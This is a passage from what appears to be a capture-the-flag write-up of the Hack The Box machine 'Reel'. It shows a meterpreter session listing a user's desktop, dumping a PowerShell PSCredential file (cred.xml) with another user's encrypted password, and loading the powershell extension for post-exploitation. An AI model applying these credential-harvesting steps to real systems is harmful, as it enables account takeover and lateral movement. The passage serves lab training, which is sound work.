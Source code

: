 After sending our email, we just have to wait for the victim to execute the file and in this way we will obtain RCE.  

<script id="asciicast-253182" src="https://asciinema.org/a/253182.js" async></script>

## Persistence (Nico => Tom)  
The user nico had a file on their desktop named cred.xml which appeared to contain credentials for tom, another user on Reel:  

{% highlight s %}
meterpreter > dir C:\Users\nico\Desktop
Listing: C:\Users\nico\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  1468  fil   2017-10-27 18:59:16 -0500  cred.xml
100666/rw-rw-rw-  282   fil   2017-10-27 17:42:45 -0500  desktop.ini
100444/r--r--r--  32    fil   2017-10-27 18:40:33 -0500  user.txt
100666/rw-rw-rw-  162   fil   2017-10-27 16:34:38 -0500  ~$iledDeliveryNotification.doc

meterpreter > cat cred.xml 
{% endhighlight %} 

The content of the file is:   

{% highlight xml %}
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d2
0f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
{% endhighlight %} 

PowerShell has this object called a PSCredential, which provides a method to store usernames, passwords, and credentials. There’s also two functions, Import-CliXml and Export-CliXml , which are used to save these credentials to and restore them from a file. This file is the output of Export-CliXml.  
In order to interact with the xml file as it is intended, the meterpreter shell must load the PowerShell extension using the command:  

{% highlight s %}
meterpreter > load powershell 
Loading extension powershell...Success.

meterpreter > powershell_shell

PS >
{% endhighlight %} 
